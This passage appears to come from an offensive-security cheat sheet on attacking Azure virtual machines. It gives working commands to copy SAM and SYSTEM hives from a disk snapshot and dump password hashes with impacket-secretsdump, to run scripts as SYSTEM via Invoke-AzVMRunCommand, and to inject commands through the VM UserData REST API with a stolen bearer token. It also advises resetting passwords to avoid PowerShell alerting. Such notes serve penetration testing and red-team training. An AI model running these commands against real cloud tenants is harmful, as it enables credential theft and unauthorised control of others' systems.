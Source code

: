 #### Navigate to the windows snapshot
```
cd /media/mounted-drive/
ls
```

#### Copy system/SAM and dump hashes
```
cd /media/mounted-drive/Windows/System32/config/
cp SAM SYSTEM ~/
cd ~/
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```

### Execute commands
- Requires the "Virtual Machine Contributor" role
- Run as default by SYSTEM or root
- Commandid =  RunPowerShellScript or RunShellScript
```
Invoke-AzVMRunCommand -ResourceGroupName <resource group name> -VMName <VM name> -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

### Reset password from VM
- Can be done from Azure portal
- This may be a quick way to gain access and avoid PowerShell alerting
- Be careful though as scripts/services may be using the credential

#### Modify UserData
- Any automation or scheduled task reading commands from user data can be abused!
- Required Permissions `Microsoft.Compute/virtualMachines/write`
```
$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
